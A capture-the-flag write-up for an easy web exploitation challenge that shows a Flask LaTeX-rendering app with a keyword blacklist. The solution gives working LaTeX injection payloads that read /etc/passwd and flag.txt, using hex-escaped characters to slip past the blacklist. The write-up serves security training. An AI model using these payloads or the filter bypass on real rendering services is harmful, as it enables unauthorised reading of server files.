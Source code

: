 # Kethal's Transmitter

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Sending signals over space can take a long time.  Kethal recently built a technology capable of transmitting messages to other galaxies using a specific signal.  If only I could figure out what techniques he uses.

#### Preview:

![image](https://github.com/user-attachments/assets/6c47c66e-d94e-4210-9181-d0e173553ad6)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Access challenge website
Access to `http://localhost:5000`

## Solution
<details>

![image](https://github.com/user-attachments/assets/c95bf775-d98c-40c8-8eb8-8329154a928e)

### Source Code (Python)
```python
from flask import Flask, render_template, request, jsonify
import subprocess
import os
import uuid
import base64
import time
import shutil

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret_key'
app.config['TEMP_FOLDER'] = 'temp'
app.config['FLAG'] = 'ICTF25{test_flag}'

os.makedirs(app.config['TEMP_FOLDER'], exist_ok=True)

LATEX_TEMPLATE = r"""
\documentclass{{article}}
\usepackage{{amsmath}}
\pagestyle{{empty}}

\begin{{document}}
{}
\end{{document}}
"""

blacklisted = ['flag', '.txt','newread','openin','read','file','line','closein','verbatim','usepackage','verbatiminput','lstinputlisting']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST'])
def render_latex():
    cleanup_old_jobs(app.config['TEMP_FOLDER'])

    latex_code = request.form.get('latex', '')

    for word in blacklisted:
        if word in latex_code.lower():
            return jsonify({'error': 'Forbidden word detected'})

    job_id = str(uuid.uuid4())
    job_dir = os.path.join(app.config['TEMP_FOLDER'], job_id)
    os.makedirs(job_dir, exist_ok=True)

    try:
        flag_path = os.path.join(job_dir, 'flag.txt')
        with open(flag_path, 'w') as f:
            f.write(app.config['FLAG'])  

        full_latex = LATEX_TEMPLATE.format(latex_code)
        tex_file = os.path.join(job_dir, 'document.tex')
        with open(tex_file, 'w') as f:
            f.write(full_latex)

        result = subprocess.run(
            ['pdflatex', '-interaction=nonstopmode', '-output-directory', job_dir, tex_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if result.returncode != 0:
            return jsonify({
                'error': 'Invalid Function!'
            })

        pdf_file = os.path.join(job_dir, 'document.pdf')
        png_file = os.path.join(job_dir, 'output.png')
        convert_result = subprocess.run(
            ['convert', '-density', '150', pdf_file, '-quality', '90', png_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if convert_result.returncode != 0:
            return jsonify({'error': 'Image conversion failed'})

        with open(png_file, 'rb') as f:
            image_data = base64.b64encode(f.read()).decode('utf-8')

        response = {'image': image_data}
        return jsonify(response)

    except subprocess.TimeoutExpired:
        return jsonify({'error': 'Compilation Timed Out'})
    except Exception as e:
        return jsonify({'error': 'An error occurred'})
    finally:
        pass


def cleanup_old_jobs(temp_folder, max_age_seconds=60): 
    now = time.time()
    for job_name in os.listdir(temp_folder):
        job_path = os.path.join(temp_folder, job_name)
        if os.path.isdir(job_path):
            try:
                creation_time = os.path.getctime(job_path)
                if now - creation_time > max_age_seconds:
                    shutil.rmtree(job_path)
            except Exception as e:
                print(f"Cleanup error for {job_path}: {e}")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Based on the source code, the vulnerability of the website seems like [Latex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

To bypass a blacklist try to replace one character with it's unicode hex value. Can refer to [PayloadsAllTheThins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

![image](https://github.com/user-attachments/assets/cd88bbcf-7b6f-4586-b7d9-b8bb96f9c018)

Blacklisted strings:
`'flag', '.txt', 'newread', 'openin', 'read', 'file', 'line', 'closein', 'verbatim', 'usepackage', 'verbatiminput', 'lstinputlisting'`

Encode the characters with hex to bypass blacklisted words.

![image](https://github.com/user-attachments/assets/b1fa3b60-e075-4aca-8c5b-aa82e99c9af6)

Therefore, we can try use the same payload again and encode some of the characters with its hex value to bypass the blacklisting function.

![image](https://github.com/user-attachments/assets/4a5ea1f8-6eeb-4b68-aa09-e35b662b802c)

It seems like it works so we can encode the rest of the characters like "flag.txt" to read the content of the file. The following payload should look like this:

```
\newr^^65ad\fil^^65
\open^^69n\fil^^65=fl^^61g.t^^78t
\re^^61d\fil^^65 to\lin^^65
\text{\lin^^65}
\close^^69n\fil^^65
```

Using the payload and submit it into the input will reveal the contents inside the file "flag.txt". Thus, the flag is successfully obtained.

![image](https://github.com/user-attachments/assets/82d48f15-4a35-4436-b332-82c7d361b9da)

### Flag
> ICTF25{dd265d58e3e1941a0cce646df439ea13c931d0159fe5c754cd39c8bad146fea7}

</details>
